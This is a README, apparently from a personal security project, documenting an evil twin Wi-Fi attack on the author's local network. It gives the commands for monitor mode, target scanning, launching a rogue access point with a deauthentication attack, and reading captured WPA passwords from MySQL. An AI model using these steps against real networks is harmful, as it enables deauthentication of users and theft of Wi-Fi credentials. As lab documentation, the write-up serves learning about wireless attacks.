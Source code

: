 #+TITLE: Evil Twin
#+DESCRIPTION: Documenting the process in which I implemented an evil twin attack in my local network.

* Info
** Software Used
- hostapd
- dnsmasq
** Disable port 53
#+BEGIN_SRC bash
sudo systemctl disable systemd-resolved
sudo systemctl stop systemd-resolved
#+END_SRC

* Setting up a monitor interface
First we need to check what network interfaces we have connected
#+BEGIN_SRC bash
sudo iw dev
#+END_SRC

We want to take note of the interface name, ~wlxf4ec388d723b~ for the external wifi adapter.

Next we turn the interface down,

#+BEGIN_SRC bash
sudo ip link set wlxf4ec388d723b down
#+END_SRC

and then turn it into monitor mode,

#+BEGIN_SRC bash
sudo iw wlxf4ec388d723b set monitor none
#+END_SRC


and turn it back up.

#+BEGIN_SRC bash
sudo ip link set wlxf4ec388d723b up
#+END_SRC

The above can easily be done using ~mmode_f.sh~ and ~mmode_b.sh~.
#+BEGIN_SRC bash
sudo bash mmode_b.sh
#+END_SRC
* Scan for target ap
#+BEGIN_SRC bash
psudo python scanner.py
#+END_SRC
Save the needed info:
- To perform the attack we need to sniff the following:
  1. BSSID (the AP mac address we want to spoof)
  2. ESSID (the name of the AP we want to spoof)
  3. Channel
* Start rouge AP
#+BEGIN_SRC bash
psudo python evil_twin.py -u wlx34080432263f -r wlxf4ec388d723b -i wlp3s0 -b 14:ae:db:ca:3d:0a -s ahome2.4 -c 1
#+END_SRC
The python script ~evil_twin.py~ does the following:
1. Set up a rouge AP using the provided arguments (channel and essid).
2. Start up a dnsmasq instance on the chosen interface.
3. Start a deauthentication attack from a second interface.
* Passwords are saved into mysql
Login as ~fakeap~ with ~fakeap12~. The passwords are saved into wpa_keys.
#+BEGIN_SRC bash
mysql -u fakeap -p
#+END_SRC
#+BEGIN_SRC sql
use rogue_AP;
select * from wpa_keys;
#+END_SRC
* Resources
+ [[https://github.com/s0lst1c3/evil_twin][Base version]]
+ [[https://www.cellstream.com/reference-reading/tipsandtricks/410-3-ways-to-put-your-wi-fi-interface-in-monitor-mode-in-linux][Monitor mode linux]]
+ [[https://www.thepythoncode.com/article/building-wifi-scanner-in-python-scapy][Build packet sniffer in python]]
+ [[https://linuxhandbook.com/sudo-unable-resolve-host/][resolve hosts]]
+ [[https://askubuntu.com/questions/191226/dnsmasq-failed-to-create-listening-socket-for-port-53-address-already-in-use][resolve port 53]]
+ [[https://rootsh3ll.com/evil-twin-attack/][evil twin attack walkthrough]]

